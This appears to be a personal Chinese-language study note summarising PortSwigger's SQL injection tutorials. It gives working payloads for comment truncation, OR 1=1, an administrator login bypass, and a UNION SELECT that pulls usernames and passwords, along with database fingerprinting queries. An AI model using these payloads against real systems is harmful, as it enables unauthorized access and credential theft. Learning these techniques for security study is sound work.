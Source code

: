 # 2023-05-17：筆記 PortSwigger 的 SQL injection.md

Ref:
- https://portswigger.net/web-security/sql-injection
- https://portswigger.net/web-security/essential-skills/obfuscating-attacks-using-encodings
- https://portswigger.net/web-security/sql-injection/examining-the-database
- https://portswigger.net/web-security/sql-injection/union-attacks
- https://portswigger.net/web-security/sql-injection/blind
- https://portswigger.net/web-security/sql-injection/cheat-sheet


`Gifts'--`: `--` 是 sql 的註解。這個寫法有機會讓後面的查詢句變成註解
```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1

-- 這樣就把 AND release 給跳過了
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```
  
`Gifts'+OR+1=1--`: 多加一個 `OR+1=1`，可以另外把其他資料挖出來

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```

修改後的查詢將返回類別為 Gifts 或 1 等於 1 的所有項目。因為 1=1 始終為真，查詢將返回所有項目  

假如有個 User 登入的 sql 是這樣，那我們也可以用同樣的方法繞過去
```sql
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'

SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```

同樣的方法，加上 `UNION`，我們就能挖到其他 欄位 or table 的資料  
- `' UNION SELECT username, password FROM users--`

```sql
SELECT name, description FROM products WHERE category = 'Gifts'

SELECT name, description FROM products WHERE category = '' UNION SELECT username, password FROM users --'

```

有這些方法後，有時還可以想辦法辨別是哪一種 db  
下面這語法，如果ＯＫ的話，代表是 oracle db  
```sql
SELECT * FROM v$version
```  

還可以確定存在哪些 db table，以及它們包含哪些列。 在大多數 db 上，可以執行以下查詢來列出表：
```sql
SELECT * FROM information_schema.tables
```


